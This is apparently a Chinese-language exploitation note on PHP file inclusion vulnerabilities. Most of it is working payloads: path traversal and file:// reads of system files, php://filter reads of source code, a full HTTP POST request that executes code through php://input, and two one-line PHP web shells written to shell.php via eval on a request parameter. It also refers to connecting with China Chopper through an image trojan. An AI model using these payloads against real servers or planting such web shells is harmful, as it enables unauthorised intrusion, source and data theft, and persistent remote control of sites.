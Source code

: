 

## 漏洞利用

> 包含图片木马

菜刀直接链接。

> 读取敏感文件

利用文件包含漏洞，也可以读取敏感文件；

前提条件： 1. 目标文件存在（已知目标文件路径）； 2.具有文件可读权限。

```php
# 相对路径
?filepath=../../../../../../windows/system32/drivers/etc/hosts
# 绝对路径
?filepath=c:/windows/system32/drivers/etc/hosts
# 使用php 封装协议
?filepath=file://c:/windows/system32/drivers/etc/hosts
```

> 读取PHP 文件源码

利用php://fileter 读取。

```php
?filepath=php://filter/read=convert.base64-encode/resource=[目标文件]
```

> 执行PHP 命令

利用条件：1. 利用php://input 执行PHP 命令； 2.远程文件包含开启。

```http
POST /file-include/include.php?filepath=php://input HTTP/1.1
Host: 192.168.111.15
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=q9lc0vlnggvo7kogh6j01a3582
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 18

<?php phpinfo();?>
```

> 包含图片马写Shell

条件：1. 确定文件包含漏洞存在； 2.菜刀不能直接连接。

写Shell：

```php
<?php fputs(fopen("shell.php",'w'),'<?=@eval($_REQUEST[777]);phpinfo();?>')?>
    
<?php file_put_contents('shell.php','<?php @eval($_REQUEST[777])?>')?>
```

---